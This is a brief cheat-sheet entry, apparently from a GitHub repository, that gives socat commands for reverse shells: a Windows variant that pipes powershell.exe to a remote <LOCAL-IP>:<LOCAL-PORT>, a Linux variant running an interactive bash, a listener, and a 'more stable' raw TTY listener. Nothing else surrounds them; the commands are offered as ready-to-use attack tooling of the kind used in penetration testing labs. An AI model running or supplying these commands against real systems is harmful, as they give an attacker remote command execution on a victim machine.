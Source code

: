 ### windows
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

### linux
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

### listener
`socat TCP-L:<port> -`

more stable shell for linux only
``socat TCP-L:<port> FILE:`tty`,raw,echo=0``
